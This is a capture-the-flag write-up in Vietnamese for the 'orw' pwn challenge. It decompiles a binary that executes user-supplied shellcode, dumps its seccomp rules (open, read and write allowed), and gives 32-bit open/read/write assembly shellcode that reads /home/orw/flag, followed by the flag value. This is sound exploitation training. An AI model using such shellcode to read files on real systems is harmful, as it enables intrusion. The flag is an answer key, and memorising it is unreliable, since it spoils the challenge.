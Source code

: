 # orw

# Reverse

Dùng IDA để đọc pseudo code
```sh
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
Chương trình sẽ thực thi hàm orw_seccomp() để giới hạn lại các lệnh ngắt, dùng seccomp_tool để xem các lệnh có thể thực thi
```sh
thanhnt@THANGNT-ZIR:/mnt/c/Users/n18dc/OneDrive/Desktop/PaoTW/orw$ seccomp-tools dump ./orw
/var/lib/gems/2.5.0/gems/seccomp-tools-1.5.0/lib/seccomp-tools/dumper.rb:135: warning: Insecure world writable dir /mnt/c in PATH, mode 040777
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
Chương trình có thể thực thi 1 số chức năng như: read, write, open, exit...
Tiếp theo chương trình in ra đoạn text, sau đó nhập với đọ dài 0xc8 vào biến &shellcode và thực thi shellcode chúng ta vừa cung cấp.
Bên cạnh đó đường dẫn flag đã được cung cấp
`Read the flag from /home/orw/flag`

# Exploit

Thiết kế 1 shellcode 32-bit gồm 3 chức năng open, read, write như sau:
```sh
// open file ở /home/orw/flag
push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f
mov eax,0x5 
mov ebx,esp
xor edx,edx
xor ecx,ecx
int 0x80
// read 
sub esp,100
mov ebx,eax
mov eax,0x3
mov ecx,esp
mov edx,100
int 0x80
// write 
mov eax,0x4
mov ebx,1
mov ecx, esp
mov edx,100
int 0x80
```

Chuyển đoạn trên thành shellcode, mình sử dụng trang `https://defuse.ca` để convert thành shellcode.
## FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}